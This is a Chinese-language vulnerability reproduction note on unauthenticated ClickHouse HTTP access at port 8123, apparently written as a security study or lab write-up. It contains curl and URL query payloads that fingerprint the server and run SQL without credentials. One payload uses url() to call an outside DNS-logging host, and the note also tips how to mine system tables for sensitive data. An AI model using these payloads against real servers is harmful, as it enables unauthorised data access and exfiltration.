


# clickhouse 未授权访问漏洞

## 漏洞描述

恶意攻击者可以在不提供有效凭据的情况下访问 ClickHouse 服务器。这可能导致未经授权的访问敏感数据，或允许攻击者修改或删除数据。**默认情况下，clickhouse-server会在8123端口上监控HTTP请求（这可以在配置中修改）。**

## 环境搭建

```
sudo apt-get install -y apt-transport-https ca-certificates dirmngr
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv 8919F6BD2B48D754

echo "deb https://packages.clickhouse.com/deb stable main" | sudo tee \
    /etc/apt/sources.list.d/clickhouse.list
sudo apt-get update

sudo apt-get install -y clickhouse-server clickhouse-client

sudo service clickhouse-server start
clickhouse-client
```

## 漏洞复现

首先确定是否使用了 ClickHouse 数据库的接口

```
curl http://192.168.0.5:8123
```

根据文档得知，正常返回为 Ok. , 且存在 `X-ClickHouse-Summary` 作为返回包的 Header



测试是否可以执行SQL命令, 部分会开启身份验证导致未授权执行失败

```
/?query=SHOW%20DATABASES
```



成功执行语句获取数据，执行其他命令探测出网

```
http://192.168.0.5:8123/?query=SELECT%20*%20FROM%20url(%27http://cf1cfb13.dns.1433.eu.org/%27,%20CSV,%20%27column1%20String,%20column2%20UInt32%27)%20LIMIT%203;
```


可以查看 system库中的执行记录表来获取最近执行的所有SQL语句来快速定位可利用的信息(获取敏感用户信息，数据库名以及数据表名)

